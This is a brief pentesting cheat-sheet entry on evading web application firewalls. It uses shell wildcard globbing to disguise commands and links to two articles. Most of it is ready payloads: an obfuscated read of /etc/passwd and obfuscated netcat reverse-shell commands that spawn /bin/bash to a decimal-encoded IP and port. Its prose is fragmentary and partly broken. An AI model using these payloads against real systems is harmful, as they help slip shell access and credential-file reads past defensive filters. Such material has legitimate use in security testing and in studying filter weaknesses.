 ## Evading WAF

Instead executing

`ls`

command, you can use the following syntax:

`/???/?s`



Standard:`/bin/cat /etc/passwd`  
Evasion:`/???/??t /???/??ss??`



\(usually`nc -e /bin/bash 127.0.0.1 1337`\), you can do it with a syntax like:

`/???/n? -e /???/b??h 2130706433 1337`

If  use`nc.traditional`instead of`nc`that doesn’t have the`-e`parameter in order to execute`/bin/bash`after connect. The payload become something like this:

```
/???/?c.??????????? -e /???/b??h 2130706433 1337
```

### References

[https://medium.com/secjuice/waf-evasion-techniques-718026d693d8](https://medium.com/secjuice/waf-evasion-techniques-718026d693d8)

[https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0](https://medium.com/secjuice/web-application-firewall-waf-evasion-techniques-2-125995f3e7b0)

